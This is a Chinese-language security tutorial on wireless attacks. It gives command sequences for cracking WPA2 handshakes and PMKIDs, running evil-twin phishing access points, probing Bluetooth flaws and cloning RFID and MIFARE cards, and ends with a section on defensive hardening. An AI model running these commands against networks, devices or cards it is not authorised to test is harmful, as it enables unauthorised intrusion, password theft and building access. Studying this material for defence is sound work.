

# 无线安全进阶：WiFi 与蓝牙攻击

> 无线是内网的入口——攻下 WiFi 就相当于物理进入大楼。

---

## WiFi 协议安全结构



## WPA2 攻击全流程

```bash
# aircrack-ng 套件完整攻击链

# 1. 开启监听模式
airmon-ng start wlan0
# 网卡变为 wlan0mon

# 2. 扫描周围 AP
airodump-ng wlan0mon

# 3. 锁定目标 AP
# BSSID: AA:BB:CC:DD:EE:FF
# CH: 6
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

# 4. Deauth 攻击抓握手包
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon

# 5. 离线破解握手包
# GPU 加速（Hashcat）
hashcat -m 2500 -a 3 handshake.hccapx ?l?l?l?l?l?l?l?l

# CPU 字典
aircrack-ng -w rockyou.txt handshake-*.cap

# PMKID 攻击（无需客户端）
# 利用 RSN IE 中的 PMKID
hcxdumptool -o pmkid.pcapng -i wlan0mon --enable_status=1
hcxpcaptool -z pmkid.22000 pmkid.pcapng
hashcat -m 22000 pmkid.22000 rockyou.txt
```

## WPA3 攻击

```yaml
WPA3 安全改进:
  - SAE (Simultaneous Authentication of Equals)
  - Dragonfly 密钥交换
  - 前向安全性
  - 防离线字典攻击

Dragonblood 漏洞:
  CVE-2019-9494: 
    - 侧信道攻击获取密码
    - 时序差异可探测密码字符
    
  CVE-2019-9495:
    - 降级攻击（WPA3 → WPA2）
    - 使用 WPA2 过渡模式

实际攻击方法:
  # SAE 侧信道
  # 观察握手时序推断密码
  
  # 降级攻击
  # 伪装为仅支持 WPA2 的 AP
  # 迫使客户端使用 WPA2
  
  # Beacon Flood
  # 伪造大量 WPA3 AP → 客户端混淆
```

## Evil Twin 攻击

```bash
# 1. 克隆合法 AP
# 使用 airbase-ng
airbase-ng -e "Company-Guest" -c 6 wlan0mon

# 2. 创建假的认证页面
# 使用 Fluxion
git clone https://github.com/FluxionNetwork/fluxion
cd fluxion && ./fluxion.sh
# 选择: Evil Twin → 抓握手包 → 伪造入口
# 受害者连接 → 弹出假认证页面 → 输入密码

# 3. 更高级：WiFiPhisher
# 支持多个登录模板（微信/企业/通用）
python wifiphisher.py -aI wlan0 -e "Free WiFi"

# 4. 防御检测
# 检查 MAC 地址是否重复
# BSSID 与合法 AP 一致 → 盗用 MAC
# 信号强度突然极高 → 攻击者靠近部署
```

## 蓝牙攻击

```bash
# BlueZ 工具链
hciconfig hci0 up
hcitool scan  # 发现蓝牙设备
hcitool name AA:BB:CC:DD:EE:FF  # 获取设备名

# BlueBourne (CVE-2017-0781)
# Android 蓝牙远程代码执行
# 使用 BlueBorne 扫描器
python blueborne-scanner.py

# BTLE 攻击
# Bluefruit LE Sniffer
# Adafruit nRF51822

# Bluetooth 重连攻击
# 某些设备无认证即可连接
# 冒充已配对设备

# KNOB 攻击 (CVE-2019-9506)
# 降级加密密钥长度
# 强制使用 1 字节密钥 → 可爆破
```

## RFID/NFC 攻击

```yaml
常见 RFID 频段:
  LF (125kHz): 门禁卡(EM4100/HID Prox)
  HF (13.56MHz): 公交卡/MIFARE/NFC
  UHF (860-960MHz): 物流/仓储

MIFARE Classic 破解:
  - Crypto-1 加密已完全破解
  - 已知密钥可 dump 卡内数据
  
  # mfoc 硬破解
  mfoc -O dump.mfd -P FFFFFFFFFFFF

  # 克隆卡
  # 使用 PM3 (Proxmark3)
  pm3 -c "lf em 410x reader"
  pm3 -c "lf em 410x sim --uid 12345678"

NFC 攻击:
  - 读取信用卡信息
  - 接触式支付中继攻击
  - 电子护照数据读取

RFID 中继攻击:
  - Ghost 中继器: 桥接门禁读卡器和卡
  - 远程读取进入大楼
```

## 无线防御加固

```yaml
WiFi 防御:
  - 使用 WPA3 (不支持则 WPA2+802.1X)
  - 禁用 WPS (PIN码爆破仅需数小时)
  - MAC 地址过滤（防君子不防小人）
  - 隐藏 SSID（防君子不防小人）

企业级加固:
  - 802.1X + EAP-TLS (证书认证)
  - RADIUS 服务器强制认证
  - 客户端证书自动部署
  - WIDS/WIPS (无线入侵检测)

扫描检测:
  - Deauth 攻击检测:
    tcpdump -i wlan0mon 'type mgt subtype deauth'
  - 虚假 AP 检测:
    # 定期扫描相同 ESSID 的 AP
    # 检查 Beacon 参数一致性
  - Karma 攻击检测:
    # 检测主动响应探测请求的 AP
    # Kismet 工具

物理防御:
  - 信号屏蔽（金属涂料/屏蔽箔）
  - 定向天线限制覆盖范围
  - 访客网络与内部网络严格隔离
  - 有线等效安全（禁用无线管理）
```
